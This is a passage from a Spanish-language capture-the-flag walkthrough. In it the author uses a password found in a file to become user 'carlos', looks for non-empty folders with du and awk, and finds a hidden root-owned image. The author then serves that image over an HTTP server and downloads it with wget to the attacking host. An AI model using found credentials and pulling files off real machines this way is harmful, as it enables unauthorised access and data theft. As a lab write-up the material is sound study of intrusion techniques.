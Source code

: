 Vemos que en la siguiente direccion hay un archivo que dice lo siguiente:

```
pinguinochocolatero
```

Por lo que podremos suponer que es la contraseña de `carlos`:

```shell
su carlos
```

Metemos como contraseña `pinguinochocolatero` y veremos que somos dicho usuario.

## Escalate Privileges

Si vamos a la `home` de `carlos` vemos muchisimas carpetas, pero podremos filtrarlo por `bytes` de cuales tienen contenido y cuales no, para que nos muestre cuales no estan vacias:

```shell
du -sb * | awk '$1 != 4096 && $1 > 0 {print $2}'
```

Info:

```
carpeta55
```

Y vemos que esa carpeta no esta vacia, contiene lo siguiente:

```
-rw-r--r-- 1 root   root   627985 Jun 29  2024 .toor.jpg
```

Por lo que vemos es una imagen, por lo que vamos a pasarnosla a nuestro `host` para extraer metadatos a ver que vemos.

```shell
python3 -m http.server
```

Y desde el `host` haremos...

```shell
wget http://<IP>:8000/.toor.jpg
```

Info:

```
--2025-01-15 16:30:22--  http://172.17.0.2:8000/.toor.jpg
Connecting to 172.17.0.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 627985 (613K) [image/jpeg]
Saving to: ‘.toor.jpg’

.toor.jpg                               100%[============================================================================>] 613.27K  --.-KB/s    in 0.001s  

2025-01-15 16:30:22 (986 MB/s) - ‘.toor.jpg’ saved [627985/627985]
```
